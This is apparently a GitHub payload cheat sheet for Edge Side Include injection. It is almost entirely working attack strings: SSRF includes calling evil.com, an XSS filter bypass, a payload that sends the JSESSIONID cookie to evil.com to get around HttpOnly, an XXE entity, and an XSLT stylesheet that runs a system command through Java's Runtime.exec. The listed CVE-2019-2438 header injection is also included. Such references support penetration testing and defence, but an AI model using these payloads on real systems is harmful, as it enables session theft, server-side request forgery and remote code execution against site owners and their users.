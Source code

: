 - [ESI Inject](#esi-inject)
    - [SSRF](#ssrf)
    - [Bypass Client-Side XSS Filters](#bypass-client-side-xss-filters)
    - [Bypass the HttpOnly Cookie Flag](#bypass-the-httponly-cookie-flag)
    - [XXE(ddoS)](#xxeddos)
    - [ESI Inline Fragment](#esi-inline-fragment)
    - [XSLT To RCE](#xslt-to-rce)
    - [Header Injection and Limited SSRF (CVE-2019-2438)](#header-injection-and-limited-ssrf-cve-2019-2438)
    - [参考](#参考)

# ESI Inject
### SSRF
```html
<esi:include src="http://evil.com/ping/" />
```
### Bypass Client-Side XSS Filters
```html
x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>
>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>
```
```http
GET /index.php?msg=<esi:include src="http://evil.com/poc.html" />
```
poc.html:
```js
<script>alert(1)</script>
```
### Bypass the HttpOnly Cookie Flag
```html
<esi:include src="http://evil.com/?cookie=$(HTTP_COOKIE{'JSESSIONID'})" />
```
### XXE(ddoS)
```html
<esi:include src="http://host/poc.xml" dca="xslt" stylesheet="http://host/poc.xsl" />
```
poc.xsl
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM "http://evil.com/file" >]>
<foo>&xxe;</foo>
```
### ESI Inline Fragment
```html
<esi:inline name="/attack.html" fetchable="yes">
<script>prompt('Malicious script')</script>
</esi:inline>
```
### XSLT To RCE
```html
<esi:include src="http://website.com/" stylesheet="http://evil.com/esi.xsl">
</esi:include>
```
esi.xsl
```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[touch /tmp/pwned]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
### Header Injection and Limited SSRF (CVE-2019-2438)
```html
<esi:include src="/page_from_another_host.htm">
<esi:request_header name="User-Agent" value="12345
Host: anotherhost.com"/>
</esi:include>
```
### 参考
https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/  
https://docs.oracle.com/cd/B14099_19/caching.1012/b14046/esi.htm##i642458  
https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/